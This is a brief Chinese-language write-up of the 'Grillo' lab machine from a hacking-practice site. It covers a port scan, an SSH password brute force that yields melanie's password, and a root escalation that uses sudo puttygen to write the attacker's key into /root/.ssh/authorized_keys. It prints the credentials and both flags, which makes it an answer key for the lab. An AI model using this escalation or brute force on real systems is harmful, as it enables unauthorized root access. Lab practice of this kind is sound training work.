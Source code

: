 # Grillo

2025.03.08 https://thehackerslabs.com/grillo/

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

80 底部显示: Cambia la contraseña de ssh por favor melanie -> 请更改 ssh 密码 melanie

melanie 可能是弱密码，进行爆破：

```
[22][ssh] host: 192.168.5.40   login: melanie   password: trustno1
```

拿到 user flag：

```
melanie@grillo:~$ cat user.txt
9fe2028a405f33a6dae75e4c60c78f82
```

sudo -l 显示 (root) NOPASSWD: /usr/bin/puttygen 可以将自己的公钥导入到 /root/.ssh/authorized_keys 文件中：

```
cd ~
ssh-keygen
sudo /usr/bin/puttygen id_rsa.pub -O public-openssh -o /root/.ssh/authorized_keys
```

登陆 root，拿到 flag：

```
root@grillo:~# cat root.txt
914ea930fea11076f641cc3970187d29
```
